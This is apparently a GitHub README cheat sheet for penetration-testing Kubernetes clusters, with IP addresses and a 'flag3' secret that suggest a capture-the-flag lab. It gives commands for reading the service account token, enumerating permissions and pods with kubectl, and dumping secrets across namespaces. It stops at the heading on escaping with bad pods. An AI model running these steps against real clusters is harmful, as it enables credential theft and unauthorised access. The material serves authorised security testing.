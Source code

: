 # Kubernetes Exploit Hub

## Description
These are a collection of methods and tools I've found useful on pentesting Kubernetes Clusters. 

### Discovery and Enumeration
**Discovery with nmap (Sample with IP Address):**

```
nmap -A -T4 -p- -oA Kubernetes1 10.10.197.28
```

Pay attention to DNS names from NMAP scan outputs as they can give away that you are working with a Kubernetes environment when you have a cluster operating on a non standard port. 

**Discovering Kubernetes Clusters with Kube Hunter:**

Software URL:https://github.com/aquasecurity/kube-hunter

Installation:
```
sudo pip3 install kube-hunter
```

Example Output:

[Insert Screenshot Here]

### Initial Exploitation

After Gaining access to a cluster. Usually by misconfiguration with the application that it is hosting. PHP, Grafana, etc.

**Service Account Token Location**
```
/var/run/secrets/kubernetes.io/serviceaccount/token
```

Dropping out token and exporting it with your current terminal session:
```
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

```
export TOKEN={TOKEN]
```

Example Output:

[Insert Screenshot Here]

**Checking your permissions with the current token that you have(remote command):**
```
kubectl --server https://serverip:port --token=$TOKEN auth can-i --list
```

If cluster is running a self sign certificate then add insecure tls to your command:
```
kubectl --server https://serverip:port --token=$TOKEN --insecure-skip-tls-verify auth can-i --list
```
**Checking your permissions with the current token that you have (Local Commands):**

This is basically the same thing as above with the exception that you are dropping the --server command

ProTip: If you need to do file transfers to a pod. Its very possible you may be in a pod without wget or curl commands. Normally I am only transferring kubectl and a poisoned pod of some sort. Pwncat-cs has been an excellent choice not only from an upload standpoint but you will have a nice full tty session to work with as well. 

Github: https://github.com/calebstewart/pwncat

Installation:

```
pip install pwncat-cs
```

Install with venv (What I would recommend so you don't impact other projects with python version dependicies on your attack box.) 

```
python3 -m venv pwncat-env
source pwncat-env/bin/activate
pip install pwncat-cs
```

Check Permissions:
```
kubectl --token=$TOKEN auth can-i --list
```

**Checking out what PODS are running**
(Remote):
```
kubectl get pods --server https://serverip:port --token=$TOKEN --insecure-skip-tls-verify
```

(Local):
```
kubectl get pods --token=$TOKEN
```
**Get POD Configurations**

This is useful if you need to produce an image of the same type with a posioned pod for later. 

(Local):
```
./kubectl get pod php-deploy-6d998f68b9-wlslz --token=$TOKEN -o yaml
```
**Hunting for API's and getting secrets from them**

Get API's

(Remote):
```
kubectl api-resources --server https://ip:port --token=$TOKEN --insecure-skip-tls-verify
```

(Local):
```
kubectl api-resources --token=$TOKEN --insecure-skip-tls-verify
```

Get namespaces from within API Example is through a API called "secrets":

(Remote):
```
kubectl --server https://10.10.103.214:6443 --token=$TOKEN --insecure-skip-tls-verify get secrets --all-namespaces
```

(Local):
```
kubectl --token=$TOKEN secrets --all-namespaces
```

Pull up YAML output of name/namespaces(example for flag3):

```
kubectl --server https://10.10.103.214:6443 --token=$TOKEN --insecure-skip-tls-verify get secrets flag3 -n kube-system -o yaml
```

### Escaping with bad pods

